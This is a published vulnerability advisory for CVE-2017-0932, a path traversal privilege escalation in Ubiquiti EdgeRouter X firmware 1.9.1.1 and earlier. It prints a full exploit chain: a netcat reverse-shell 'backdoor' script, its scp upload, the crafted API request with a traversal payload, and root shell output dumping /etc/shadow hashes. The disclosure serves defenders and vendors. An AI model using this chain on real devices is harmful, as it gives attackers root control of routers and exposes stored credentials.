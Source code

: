 ```yaml
---
layout: post
title:  "UBNT EdgeRouter X <= v1.9.1.1 Local Privilege Escalation"
date:   2018-03-05
categories: advisories
tags: embedded-devices hacking-embedded IoT-hacking ubnt cve
lang: en
ref: cve-2017-0932
---
```



UBNT EdgeOS version 1.9.1.1 and prior, consequence of the lack of validation on the input of the Feature functionality, an attacker with access to an operator (read-only) account and ssh connection to the devices, can escalate privileges to admin (root) access in the system.

- Vendor: Ubiquiti Networks
- Device: Edger Router X
- Affected Version: 1.9.1.1 and prior
- CVE-ID: CVE-2017-0932

### Details

The EdgeRouter X (firmware v1.9.1.1) is susceptible to a local privilege escalation due a Path Traversal vulnerability in the Feature API. This vulnerability allows an attacker with non-privileged access (read-only) to execute commands on the device with the root rights. The attack consists in sending a maliciously crafted file (using scp with a non-privileged account) to the device and then calling the vulnerable API exploiting the Path Traversal. The exploitation will result on the crafted file being executed with root permission, giving the attacker full access to the device.

### Exploitation

First of all, we have to create the following file+directory:

```
$ cat Backdoor/wizard-run
#!/bin/bash
/usr/bin/nc 192.168.2.2:1337 -e /bin/bash &
```


Using a non-privileged 'operator' user, it was possible to upload the file to the device using the scp command:

```
$ scp -r Backdoor operator@192.168.2.1:~
Welcome to EdgeOS

By logging in, accessing, or using the Ubiquiti product, you
acknowledge that you have read and understood the Ubiquiti
License Agreement (available in the Web UI at, by default,
http://192.168.1.1) and agree to be bound by its terms.

operator@192.168.2.1's password: 
wizard-run       
```

After that, using a valid operator session and a path traversal vulnerability, it was possible to call the uploaded file with root privilege:


```
POST /api/edge/feature.json HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Referer: https://192.168.2.1/
Content-Type: application/json
X-CSRF-TOKEN: 4310724fdcab5474ab225a105bd6f86d43247dbaf5b7f4aa2ec329a641ec55ec
X-Requested-With: XMLHttpRequest
Content-Length: 90
Cookie: ip_address_top_user_option=total_bytes; PHPSESSID=i6um09hej0ku2k5ctcp6ib56f1nrqhi7; X-CSRF-TOKEN=4310724fdcab5474ab225a105bd6f86d43247dbaf5b7f4aa2ec329a641ec55ec
Connection: close

{"data":{"scenario":"../../../../../home/operator/Backdoor","action":"load"}}
```


And a remote shell will be created:

```
$ nc -lvp 1337
Listening on [0.0.0.0] (family 0, port 1337)
Connection from 192.168.2.1 44440 received!
id
uid=0(root) gid=102(vyattacfg)
uname -a
Linux ubnt 3.10.14-UBNT #1 SMP Sat Apr 22 06:38:07 PDT 2017 mips GNU/Linux
cat /etc/shadow
root:!:17283:0:99999:7:::
daemon:*:17283:0:99999:7:::
bin:*:17283:0:99999:7:::
games:*:17283:0:99999:7:::
.. snip snip ..
avahi:*:17283:0:99999:7:::
sshd:*:17283:0:99999:7:::
tss:*:17283:0:99999:7:::
ubnt:$1$zKNoUbAo$gomzUbYvgyUMcD436Wo66.:16436:0:99999:7:::
operator:$6$7SVNi.WB68V0QR5t$efMoCyT2H.mEU6M8s2NDSsW1fv7JnT2eAfK2VxuzsIdcYrEvWCILX8G0CYN/4enwrnT1yYjekQa95TxxHxhVj.:16436:0:99999:7:::
```

### Recommendation

Upgrade the firmware to the last available version.
